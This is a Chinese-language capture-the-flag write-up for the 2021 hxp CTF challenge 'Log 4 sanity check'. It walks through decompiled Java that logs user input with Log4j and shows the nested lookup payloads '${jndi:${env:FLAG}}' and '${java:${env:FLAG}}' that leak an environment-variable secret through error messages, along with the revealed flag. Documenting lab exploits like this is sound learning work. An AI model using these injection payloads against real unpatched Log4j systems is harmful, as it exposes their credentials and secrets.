 ```yaml
---
title: Misc - Log 4 sanity check
description: 2021 | HXPCTF | MSC
---
```


## 题目

[ALARM ALARM](https://www.bsi.bund.de/SharedDocs/Cybersicherheitswarnungen/DE/2021/2021-549032-10F2.pdf?__blob=publicationFile&v=6)

`nc 65.108.176.77 1337`

## 解题思路

- 恰逢近期在修补 Log4j 相关的漏洞（CVE-2021-44228） ΣΣΣ(Φ ωΦ||¡)
- Log4j 除了能够记录文本外，还可以使用简单表达式记录动态内容，[Log4j – Log4j 2 Lookups](https://logging.apache.org/log4j/2.x/manual/lookups.html)
- 使用 Java Decompiler 查看 `Vuln.class` 代码。注意到当输入不包含 `dragon` 或 `hxp` 时，会使用到 `logger`，为漏洞点
    - 只有执行异常时才会触发 `System.err.println(exception)`，看到 Lookups 解析后的结果

    ```java
    import java.util.Scanner;
    import org.apache.logging.log4j.LogManager;
    import org.apache.logging.log4j.Logger;

    public class Vuln {
        public static void main(String[] paramArrayOfString) {
            try {
                Logger logger = LogManager.getLogger(Vuln.class);
                System.out.println("What is your favourite CTF?");
                String str = (new Scanner(System.in)).next();
                if (str.toLowerCase().contains("dragon")) {
                    System.out.println("<3");
                    System.exit(0);
                } 
                if (str.toLowerCase().contains("hxp")) {
                    System.out.println(":)");
                } else {
                    System.out.println(":(");
                    logger.error("Wrong answer: {}", str);
                } 
            } catch (Exception exception) {
                System.err.println(exception);
            } 
        }
    }
    ```

- 那么 Flag 在哪里呢？看看 `Dockerfile`，发现 Flag 已经写到环境变量里了！

    ```bash
    CMD ynetd -np y -lm -1 -lpid 64 -lt 10 -t 30 "FLAG='$(cat /flag.txt)' /home/ctf/run.sh"
    ```

- 那么接下来就很简单了~
    - 首先，需要使用 Environment Lookup 取得环境变量中的 Flag：`${env:FLAG}`
    - 为了触发异常，再把 Environment Lookup 嵌套到其它查找失败会触发异常的 Lookups，如 `java`、`jndi`

    ```bash
    $ nc 65.108.176.77 1337
    What is your favourite CTF?
    ${jndi:${env:FLAG}}
    :(
    2021-12-20 03:18:44,730 main WARN Error looking up JNDI resource [hxp{Phew, I am glad I code everything in PHP anyhow :) - :( :( :(}]. javax.naming.NoInitialContextException: Need to specify class name in environment or system property, or in an application resource file: java.naming.factory.initial
    ...
    $ nc 65.108.176.77 1337
    What is your favourite CTF?
    ${java:${env:FLAG}}
    :(
    2021-12-20 08:10:40,151 main ERROR An exception occurred processing Appender Console java.lang.IllegalArgumentException: hxp{Phew, I am glad I code everything in PHP anyhow :) - :( :( :(}
    ...
    ```